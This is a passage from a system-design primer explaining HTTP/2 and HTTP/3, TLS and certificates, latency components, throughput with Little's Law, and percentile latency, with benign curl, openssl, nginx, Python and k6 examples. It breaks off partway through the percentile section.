



| | HTTP/1.1 | HTTP/2 | HTTP/3 |
|---|---|---|---|
| Standardized | 1997 | 2015 | 2022 |
| Transport | TCP | TCP | QUIC over UDP |
| Format | Text | Binary frames | Binary frames |
| Requests in parallel per connection | 1 at a time | Many (multiplexed) | Many (independent streams) |
| Header compression | None | HPACK | QPACK |
| Head-of-line blocking | At HTTP and TCP level | At TCP level | Only within a single stream |
| New connection setup (with TLS 1.3) | 2 round trips | 2 round trips | 1 round trip (0 on resume) |
| Survives Wi-Fi → mobile switch | No | No | Yes (connection migration) |

**💻 Example:**

```bash
# -I = show only the response headers. Force HTTP/1.1:
curl -I --http1.1 https://www.cloudflare.com

# Ask for HTTP/2. The first line of output shows "HTTP/2 200"
curl -I --http2 https://www.cloudflare.com

# Try HTTP/3 (needs a curl built with HTTP/3: look for "HTTP3" in `curl -V`)
curl -I --http3 https://www.cloudflare.com

# Print only the protocol version actually used (prints 2 for HTTP/2)
curl -s -o /dev/null -w '%{http_version}\n' --http2 https://www.google.com
```

In the headers, look for something like `alt-svc: h3=":443"; ma=86400` — the server saying "I also speak HTTP/3 on UDP port 443; remember this for 86,400 seconds." Turning both on in nginx (version 1.25 or newer) looks like this:

```nginx
server {
    listen 443 ssl;                 # TCP: HTTP/1.1 and HTTP/2
    listen 443 quic reuseport;      # UDP: HTTP/3 over QUIC
    http2 on;
    server_name example.com;
    ssl_certificate     /etc/ssl/example.com.pem;
    ssl_certificate_key /etc/ssl/example.com.key;
    # Tell browsers HTTP/3 is available
    add_header Alt-Svc 'h3=":443"; ma=86400';
}
```

**🌍 Real-world usage:**
- Google created **SPDY**, which became the basis of HTTP/2, and the original QUIC, which became the basis of HTTP/3.
- All major browsers support HTTP/2 and HTTP/3. CDNs like Cloudflare, Fastly, Akamai and CloudFront can turn HTTP/3 on for your site with a setting.
- **gRPC**, widely used for service-to-service calls, runs on HTTP/2 and relies on its multiplexed streams.
- Mobile apps benefit most from HTTP/3: lossy networks and frequent Wi-Fi ↔ cellular switches.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| HTTP/1.1 | Simple internal tools, legacy clients | HOL blocking, many connections needed |
| HTTP/2 | Default for websites, APIs and gRPC | Still stalls on TCP packet loss |
| HTTP/3 | Mobile users, global audiences, lossy networks | UDP sometimes blocked, more CPU, newer tooling |

**⚠️ Common mistakes:**
- Keeping HTTP/1.1-era hacks (domain sharding, giant bundles) after moving to HTTP/2. Sharding actually hurts because it prevents reusing one connection.
- Assuming HTTP/3 always works. Some networks block UDP, so always keep HTTP/2 as a fallback.
- Returning `200 OK` with an `{"error": ...}` body, or `500` for a client's bad input. Wrong status codes break retries, caching and monitoring.
- Using `GET` for actions that change data. Crawlers, link previewers and browser prefetching will happily trigger them.
- Forgetting that HTTP/2 still suffers TCP head-of-line blocking on lossy networks.

**🎯 Remember:** HTTP/1.1 = one request at a time per connection. HTTP/2 = many streams over one TCP pipe. HTTP/3 = many independent streams over QUIC/UDP, with faster setup and connections that survive network switches.

**🔗 See also:** [#2 TCP vs UDP](#2-tcp-vs-udp), [#4 TLS](#4-tls), [#5 Latency](#5-latency), [#9 CDN](#9-cdn), [#13 API Gateway](#13-api-gateway), [#18 gRPC](#18-grpc)

---


### 4. TLS

> **In one line:** TLS is the padlock in your browser: it scrambles your data so only you and the real website can read it, and proves the website is who it claims to be.

**🏠 Real-life analogy:** Imagine sending valuables in a locked, tamper-evident box. Only the receiver can open it (**encryption**). If anyone pries at it on the way, the seal shows it (**integrity**). And before you hand it over, you check the receiver's passport, issued by a government you trust (**authentication** via a certificate issued by a Certificate Authority).

**❓ What problem does it solve?** Without TLS, everyone between you and the server — the café Wi-Fi, your ISP, a hacked router — can:
- **Read** your traffic: passwords, card numbers, private messages (eavesdropping).
- **Change** it: inject ads or malware into a page, or alter a bank transfer.
- **Pretend** to be the site (a "man-in-the-middle" attack) and collect everything you type.

TLS (Transport Layer Security; its old name was SSL) is what turns `http://` into `https://` and fixes all three.

**⚙️ How it works:**

**Two kinds of cryptography (crypto = the math of secret codes):**
- **Symmetric:** the *same* key locks and unlocks (e.g., AES, ChaCha20). Very fast, but how do two strangers agree on a secret key over a public network?
- **Asymmetric (public-key):** each side has a *key pair* — a **public key** you can share with anyone and a **private key** you never share. It lets two strangers agree on a shared secret in public (Diffie-Hellman key exchange, e.g., X25519) and lets a server **sign** things to prove its identity. It is much slower.
- **TLS uses both:** asymmetric crypto during the handshake to check identity and agree on fresh keys, then fast symmetric crypto for all the actual data.

**Certificates and Certificate Authorities (CAs):**
- A **certificate** (X.509 format) is a digital ID card: the domain name(s), the server's public key, who issued it, valid-from and valid-until dates, and the issuer's digital signature.
- A **Certificate Authority** is an organization trusted to check that you really control a domain before signing your certificate: Let's Encrypt, DigiCert, Sectigo, GlobalSign, Google Trust Services, and others.
- **Chain of trust:** your OS and browser ship with a list of trusted **root CAs** (the "root store"). Roots are kept offline and only sign **intermediate CAs**. Intermediates sign your site's **leaf certificate**. Your browser checks each signature up the chain to a root it trusts, checks that the name matches the site, and checks that nothing is expired.



**The TLS 1.3 handshake (2018, RFC 8446):**
1. **ClientHello:** "I speak TLS 1.3, here are the ciphers I support, here's my key share, and I want `www.example.com`" (that last part is SNI, Server Name Indication, so one IP can host many sites).
2. **ServerHello:** the server picks a cipher and sends its own key share. Both sides can now compute the **same secret key** without ever sending it.
3. The server sends, already encrypted: its **certificate chain**, a **CertificateVerify** (a signature proving it owns the private key), and **Finished**.
4. The client verifies everything, sends its own **Finished**, and encrypted HTTP data starts flowing.

That's **1 round trip** (TLS 1.2 needed 2). Returning visitors can use **0-RTT resumption** and send data immediately — but 0-RTT data can be replayed by an attacker, so only use it for safe, repeatable requests like `GET`. TLS 1.3 also guarantees **forward secrecy**: each session uses throwaway keys, so stealing the server's private key later doesn't unlock old recorded traffic.



**Let's Encrypt** is a free, automated, nonprofit CA (run by ISRG) that made HTTPS the default on the web. It uses the **ACME** protocol so tools like `certbot` can prove domain ownership, fetch certificates and renew them automatically. Its certificates are deliberately short-lived (90 days or less), to push everyone toward automation.

**HSTS (HTTP Strict Transport Security)** is a response header that tells the browser "for the next N seconds, only ever talk to me over HTTPS." It blocks attacks that quietly downgrade you to plain HTTP. Sites can also join the browser **HSTS preload list** so even the very first visit uses HTTPS.

**💻 Example:**

```bash
# Get a free certificate from Let's Encrypt and configure nginx automatically
sudo certbot --nginx -d example.com -d www.example.com
sudo certbot renew --dry-run          # test that auto-renewal works

# Inspect a server's TLS: protocol, cipher and the full chain it sends
openssl s_client -connect example.com:443 -servername example.com -showcerts </dev/null

# Just print who the cert is for, who issued it, and its validity dates
echo | openssl s_client -connect example.com:443 -servername example.com 2>/dev/null \
  | openssl x509 -noout -subject -issuer -dates
```

```nginx
# Turn on HSTS for 1 year (31536000 seconds), including all subdomains
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
ssl_protocols TLSv1.2 TLSv1.3;        # refuse old, broken versions
```

A tiny Python check you could run daily to catch expiring certificates:

```python
import socket, ssl, time

def days_until_expiry(host: str) -> int:
    ctx = ssl.create_default_context()                 # uses the OS root store
    with socket.create_connection((host, 443), timeout=5) as sock:
        with ctx.wrap_socket(sock, server_hostname=host) as tls:   # handshake + verify
            print(host, "uses", tls.version())        # e.g. TLSv1.3
            cert = tls.getpeercert()
    expires_at = ssl.cert_time_to_seconds(cert["notAfter"])
    return int((expires_at - time.time()) // 86400)

print(days_until_expiry("example.com"), "days left")   # alert if below 14!
```

**🌍 Real-world usage:**
- Practically every major site and API (Google, GitHub, Stripe, Shopify...) is HTTPS-only, and browsers label plain HTTP pages "Not secure."
- CDNs and load balancers (Cloudflare, CloudFront, AWS ALB) often **terminate TLS** at the edge: they hold the certificate, decrypt, and forward the request.
- **Mutual TLS (mTLS):** both sides present certificates. Service meshes like Istio and Linkerd use mTLS so microservices can prove who they are to each other.
- **Expired-certificate outages:** certificates have a hard end date. When one expires, every client refuses to connect, so a perfectly healthy service is suddenly "down." This has happened to many large companies, usually with a certificate nobody was tracking (an internal API, a load balancer, an embedded device). The fix is boring but vital: automate renewal, keep an inventory, and alert well before expiry. The industry is moving toward even shorter certificate lifetimes, which makes automation mandatory.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Terminate TLS at the CDN / load balancer | Most web apps; offloads CPU, enables caching and inspection | Traffic behind it is plaintext unless you re-encrypt |
| End-to-end TLS / mTLS everywhere | Zero-trust networks, regulated data (payments, health) | More certificates to manage, a little more CPU and latency |
| 0-RTT resumption | Repeat visitors, read-only requests | Replay risk, so never for payments or other writes |
| Short-lived certificates | Always, if renewal is automated | Breaks quickly if automation fails silently |

**⚠️ Common mistakes:**
- Letting a certificate expire because renewal was manual or nobody monitored it.
- Forgetting to send the **intermediate** certificate. Some browsers cope, but `curl`, Java, Android and other clients fail with "unable to verify."
- Turning off verification "just to make it work" (`verify=False` in Python `requests`, `rejectUnauthorized: false` in Node) and shipping it to production. That throws away authentication completely.
- Still allowing old TLS 1.0/1.1 or weak ciphers.
- Enabling HSTS `preload` before every subdomain supports HTTPS — it is hard to undo.

**🎯 Remember:** TLS gives encryption, integrity and authentication. Asymmetric crypto is used to meet and agree on a key; symmetric crypto is used to talk fast. Trust flows from a root CA down the chain to your certificate. Automate renewal and monitor expiry.

**🔗 See also:** [#2 TCP vs UDP](#2-tcp-vs-udp), [#3 HTTP/2 & HTTP/3](#3-http2--http3), [#9 CDN](#9-cdn), [#93 OAuth 2.0 (& OIDC)](#93-oauth-20--oidc), [#96 Encryption at Rest](#96-encryption-at-rest)

---

### 5. Latency

> **In one line:** Latency is the waiting time between asking for something and starting to get the answer.

**🏠 Real-life analogy:** You order a pizza. The total wait includes the drive from the shop to your house (**propagation**), loading all the boxes into the car (**transmission**), cooking (**processing**), and waiting behind the ten orders placed before yours (**queuing**). A faster oven won't fix a 30 km drive, and a faster car won't help if 50 orders are ahead of you.

**❓ What problem does it solve?** Understanding latency tells you *where* time goes so you fix the right thing.
- Users feel latency directly. Pages that respond in under ~100 ms feel instant; multi-second waits make people leave.
- Without breaking latency down, teams often optimize the wrong part — like tuning code by 5 ms when the request makes 6 round trips across an ocean.
- Latency adds up across a system: one page may call 10 services, each calling a database.

**⚙️ How it works:** Total latency is the sum of four parts:
1. **Propagation delay** — the time for the signal to physically travel. Light in optical fiber moves at about 200,000 km/s (about two-thirds of its speed in a vacuum), so roughly **5 ms per 1,000 km one way**. This is physics: the only fix is to move closer (CDNs, more regions).
2. **Transmission delay** — the time to push all the bits onto the wire = size ÷ bandwidth. 1 MB over a 10 Mbps link takes 0.8 s; over 1 Gbps it takes 8 ms.
3. **Processing delay** — the time routers and servers spend working: parsing, running your code, querying the database.
4. **Queuing delay** — the time spent waiting in line: in router buffers, thread pools, database connection pools. It grows explosively as a system gets close to full.

**Round trips matter most.** **RTT** (round-trip time) is the time to go there and back. Example: New York → London is about 5,600 km, so one way through fiber takes at least 5,600 ÷ 200,000 = **28 ms**, and an RTT is at least **56 ms** (more in practice, since cables don't run in straight lines). A brand-new HTTPS request needs about 4 round trips — DNS, TCP handshake, TLS handshake, then the request itself — so that's over **200 ms before the server even starts working**. That's why we reuse connections, use HTTP/3, batch API calls, and put content on CDNs.



**Latency numbers every programmer should know** (popularized by Jeff Dean and Peter Norvig). These are **approximate orders of magnitude** — real values vary by hardware and year — but the *ratios* are what matter:

| Operation | Approx. time | If 1 ns were 1 second |
|---|---|---|
| L1 CPU cache reference | ~1 ns | 1 second |
| Main memory (RAM) reference | ~100 ns | ~2 minutes |
| Send 1 KB over a 1 Gbps network | ~10 µs | ~3 hours |
| Random 4 KB read from an SSD | ~100 µs | ~1 day |
| Round trip inside one data center | ~500 µs | ~6 days |
| Read 1 MB sequentially from an SSD | ~1 ms | ~12 days |
| Hard disk seek | ~10 ms | ~4 months |
| Read 1 MB sequentially from a hard disk | ~20 ms | ~8 months |
| Packet round trip California → Netherlands → California | ~150 ms | ~5 years |

Takeaways: memory is ~100x slower than CPU cache, disk and network are thousands of times slower than memory, and crossing an ocean is the slowest thing of all.

**💻 Example:** `curl` can show where the time goes. Each value is the time **since the start**, so subtract neighbors to get each phase.

```bash
curl -s -o /dev/null https://example.com -w '
  DNS lookup done:   %{time_namelookup}s
  TCP connected:     %{time_connect}s
  TLS handshake done:%{time_appconnect}s
  First byte (TTFB): %{time_starttransfer}s
  Total:             %{time_total}s
'
```

How to read it:
- `time_connect - time_namelookup` ≈ one network round trip (the TCP handshake).
- `time_appconnect - time_connect` = TLS handshake time.
- `time_starttransfer - time_appconnect` = one round trip + server processing (**TTFB**, Time To First Byte).
- Run it twice: the second run is often faster thanks to DNS caching.

**🌍 Real-world usage:**
- Google, Amazon, Netflix and others run many regions and edge locations mainly to cut propagation delay.
- High-frequency trading firms built microwave-tower links between Chicago and New York because radio through air travels faster than light through glass fiber, and the path is straighter.
- Monitoring tools like Datadog, Grafana/Prometheus, New Relic and browser "Real User Monitoring" measure latency from real users' devices.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Move closer (CDN, more regions) | Global users, static or cacheable content | Cost, data consistency across regions |
| Cut round trips (keep-alive, HTTP/3, batching) | Chatty clients, mobile apps | More complex APIs and clients |
| Cache results | Repeated reads | Stale data, invalidation is hard |
| Do work asynchronously (queues) | Slow side tasks (emails, thumbnails) | The user doesn't see the result immediately |

**⚠️ Common mistakes:**
- Testing only from your office or the same cloud region as your servers, then being surprised by users on another continent.
- "Chatty" designs: 100 sequential calls × 50 ms = 5 seconds. Batch or parallelize.
- Confusing bandwidth with latency: a bigger pipe doesn't make light travel faster.
- Looking only at the average latency (see #7 p99 Latency).
- Running servers near 100% busy and wondering why queuing delay exploded.

**🎯 Remember:** Latency = propagation + transmission + processing + queuing. You can't beat the speed of light, so cut round trips and move data closer to users.

**🔗 See also:** [#6 Throughput](#6-throughput), [#7 p99 Latency](#7-p99-latency-percentiles), [#8 Tail Latency](#8-tail-latency), [#9 CDN](#9-cdn), [#38 Caching](#38-caching)

---

### 6. Throughput

> **In one line:** Throughput is how much work a system finishes per second — for example, 5,000 requests per second.

**🏠 Real-life analogy:** Picture a highway. **Bandwidth** is the number of lanes (the maximum capacity). **Throughput** is how many cars actually pass the toll booth per hour. **Latency** is how long one car takes to drive from A to B. Adding lanes raises capacity but doesn't make one car faster, and a traffic jam (a queue) hurts both: fewer cars get through *and* each one takes longer.

**❓ What problem does it solve?** Throughput answers "how many users can we handle?" and "how many servers do we need?"
- Without throughput numbers, you either over-buy servers (wasting money) or under-buy and crash on launch day or Black Friday.
- It helps find the **bottleneck**: a system is only as fast as its slowest step (one database, one lock, one CPU core).
- It lets you predict what happens when traffic doubles.

**⚙️ How it works:**
- **Units:** RPS / QPS (requests or queries per second), TPS (transactions per second), Mbps / Gbps (data), messages per second (queues).
- **Bandwidth vs throughput vs latency:**

| Term | Meaning | Highway version | Example |
|---|---|---|---|
| Bandwidth | Maximum possible capacity | Number of lanes | A 1 Gbps network link |
| Throughput | What you actually achieve | Cars passing per hour | 600 Mbps actually used, or 2,000 RPS |
| Latency | Time for one item | Travel time for one car | 80 ms per request |

- **Load vs latency:** as load gets close to capacity, queues form and latency shoots up (a "hockey stick" curve). Teams usually keep generous headroom instead of planning to run at 100%.
- **Raising throughput:** add servers (horizontal scaling), cache, batch work, process asynchronously, pool connections, and fix the bottleneck first.

**Little's Law** — a simple, powerful rule that holds for any stable system:

**L = λ × W**
- **L** = average number of requests *inside* the system at once (concurrency, "in flight")
- **λ** (lambda) = arrival rate = throughput (requests per second)
- **W** = average time each request spends in the system (latency, in seconds)

**Worked example:** a checkout service receives **400 requests/s** with an average latency of **250 ms**.
1. L = 400 × 0.25 = **100 requests in flight** at any moment.
2. If each server instance has 25 worker threads, you need at least 100 ÷ 25 = **4 instances** (plus headroom, so maybe 6 = 150 threads).
3. Now the database slows down and latency becomes **1 s**. L = 400 × 1 = **400 requests in flight** — but you only have 150 threads. Requests queue, latency rises further, and the service spirals toward an outage.
4. Flip the formula to find your ceiling: max throughput = L ÷ W = 150 threads ÷ 0.25 s = **600 requests/s**. With 1 s latency, the same 150 threads can only do **150 requests/s**.

Lesson: **slower dependencies eat your capacity**, even if your own code didn't change.



**💻 Example:** Load testing tools send lots of traffic and measure throughput and latency. Popular ones: **wrk** (tiny and very fast, command line), **k6** (scripts in JavaScript, by Grafana Labs), **Apache JMeter** (Java, GUI, many protocols), plus Locust (Python) and Gatling.

```bash
# wrk: 4 threads, 100 open connections, for 30 seconds, show latency percentiles
wrk -t4 -c100 -d30s --latency http://localhost:8080/api/products
```

```js
// load-test.js  -- run with:  k6 run load-test.js
import http from 'k6/http';
import { check, sleep } from 'k6';

export const options = {
  stages: [
    { duration: '1m', target: 50 },   // ramp up to 50 virtual users
    { duration: '3m', target: 50 },   // hold steady
    { duration: '1m', target: 0 },    // ramp down
  ],
  thresholds: {
    http_req_duration: ['p(95)<300'], // fail the test if p95 latency >= 300 ms
    http_req_failed: ['rate<0.01'],   // fail if 1% or more of requests error
  },
};

export default function () {
  const res = http.get('https://staging.example.com/api/products');
  check(res, { 'status is 200': (r) => r.status === 200 });
  sleep(1);                           // each user "thinks" for 1 s between clicks
}
```

k6 prints requests per second (`http_reqs`), latency percentiles and the error rate. Increase the load until latency or errors break your thresholds — that's your real capacity.

**🌍 Real-world usage:**
- E-commerce companies like Amazon and Shopify load-test and plan capacity well ahead of big sales events like Black Friday.
- Teams put k6 or JMeter tests in CI pipelines to catch performance regressions before release.
- Thread-pool, connection-pool and Kubernetes replica sizing are all Little's Law in disguise.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Scale out (more instances) | Stateless services | Cost; may just move the bottleneck to the database |
| Batching | High-volume writes, queues | Adds latency for each individual item |
| Caching | Read-heavy workloads | Staleness, memory cost |
| Run hot (high utilization) | Tight budgets | Queuing delay explodes, no room for spikes |

**⚠️ Common mistakes:**
- Load testing from a single laptop, so the *load generator* becomes the bottleneck.
- Testing a tiny dataset that fits in cache, giving unrealistically great numbers.
- Reporting only average latency at max throughput — look at p95/p99 too (see #7).
- Ignoring **coordinated omission**: some tools wait for slow responses before sending more, which hides the true latency under load (wrk2 and k6's arrival-rate mode help avoid this).
- Load testing production without warning other teams (or your cloud provider).

**🎯 Remember:** Bandwidth is the size of the pipe, throughput is what actually flows, latency is how long one item takes. Little's Law, L = λ × W, connects them: if latency goes up, you need more concurrency for the same throughput.

**🔗 See also:** [#5 Latency](#5-latency), [#7 p99 Latency](#7-p99-latency-percentiles), [#8 Tail Latency](#8-tail-latency), [#12 Load Balancing](#12-load-balancing), [#64 Horizontal Scaling](#64-horizontal-scaling), [#65 Autoscaling](#65-autoscaling)

---

### 7. p99 Latency (Percentiles)

> **In one line:** "p99 = 300 ms" means 99 out of 100 requests finished in 300 ms or less — and it tells you how the unlucky users feel, which an average hides.

**🏠 Real-life analogy:** A bus company says "the average wait is 5 minutes." But on most days the bus comes in 2 minutes, and a few times a week it doesn't come for 40 minutes. The average sounds fine, yet some people miss job interviews. You'd rather hear: "90% of the time you wait under 3 minutes; 1% of the time over 30." That's what percentiles tell you.

**❓ What problem does it solve?** **Averages lie.** A few very slow requests drag the average up, while hiding how bad they actually were. And the average doesn't match any real user's experience.
- An average of 82 ms might mean "everyone gets 82 ms" or "most get 40 ms and some wait 2 seconds." Very different stories.
- Busy users make many requests per page and per session, so they are *very likely* to hit the slow ones.
- Percentiles let you set clear goals ("99% under 300 ms") and spot problems averages smooth over.

**⚙️ How it works:**
1. Collect the latency of every request in a time window.
2. Sort them from fastest to slowest.
3. **pN** = the value below which N% of requests fall.
   - **p50** (the median): the typical experience — half are faster, half slower.
   - **p90 / p95:** the "most users" experience.
   - **p99:** 1 in 100 requests is slower than this.
   - **p99.9:** 1 in 1,000 — matters a lot at large scale.

**Worked example — 100 requests:**

| How many requests | Latency each |
|---|---|
| 50 | 40 ms |
| 40 | 60 ms |
| 5 | 120 ms |
| 4 | 300 ms |
| 1 | 2,000 ms |

- **Average** = (50×40 + 40×60 + 5×120 + 4×300 + 1×2000) ÷ 100 = 8,200 ÷ 100 = **82 ms**. Not a single request actually took 82 ms!
- Sorted, the 50th request is 40 ms → **p50 = 40 ms**.
- The 90th is 60 ms → **p90 = 60 ms**.
- The 95th is 120 ms → **p95 = 120 ms**.
- The 99th is 300 ms → **p99 = 300 ms**.
- The 100th is 2,000 ms → **p99.9 ≈ 2,000 ms** (with only 100 samples, p99.9 is just the slowest one — you need thousands of samples for meaningful high percentiles).

```mermaid
pie title 100 requests grouped by latency
    "40 ms" : 50
    "60 ms" : 40
    "120 ms" : 5
    "300 ms" : 4
    "2000 ms" : 1
```

**Histograms:** real systems serve millions of requests, so instead of storing every value they count requests into **buckets** (0-50 ms, 50-100 ms, 100-250 ms, ...) and estimate percentiles from the bucket counts. Prometheus histograms, HdrHistogram and Datadog distributions all work this way. Bucket counts from many servers can be **added together** correctly; percentiles cannot.

**Percentiles in SLOs:** an **SLI** (Service Level Indicator) is what you measure (e.g., p99 latency of checkout). An **SLO** (Service Level Objective) is your goal: "99% of checkout requests complete in under 400 ms, measured over 30 days." An **SLA** (Agreement) is a promise to customers with penalties if you miss it.

```mermaid
flowchart LR
    Requests["Every request's latency"] --> Buckets["Histogram buckets<br/>0-50, 50-100, 100-250 ms ..."]
    Buckets --> Merge["Add up buckets<br/>from all servers"]
    Merge --> Pct["Compute p50 / p95 / p99"]
    Pct --> SLO{"p99 below 400 ms?"}
    SLO -->|"yes"| Met["SLO met"]
    SLO -->|"no"| Alert["Page the on-call engineer"]
```

**💻 Example:** computing percentiles in Python with the "nearest-rank" method (matches the worked example):

```python
import math

latencies_ms = [40]*50 + [60]*40 + [120]*5 + [300]*4 + [2000]

def percentile(values, p):
    """Nearest-rank: smallest value with at least p% of samples <= it."""
    ordered = sorted(values)
    rank = math.ceil(p * len(ordered) / 100)    # 1-based position
    return ordered[max(rank, 1) - 1]

print("avg", sum(latencies_ms) / len(latencies_ms))   # avg 82.0
for p in (50, 90, 95, 99, 99.9):
    print(f"p{p}", percentile(latencies_ms, p))
# p50 40 | p90 60 | p95 120 | p99 300 | p99.9 2000
```

Libraries like NumPy (`numpy.percentile`) *interpolate* between values by default, so they may give slightly different numbers (e.g., ~317 ms for p99 here). That's fine; just be consistent.

In Prometheus, p99 over the last 5 minutes across all servers:

```text
histogram_quantile(0.99, sum by (le) (rate(http_request_duration_seconds_bucket[5m])))
```

**🌍 Real-world usage:**
- Amazon's Dynamo paper (2007) describes measuring service-level agreements at the **99.9th percentile** rather than the average, so nearly every customer gets a good experience.
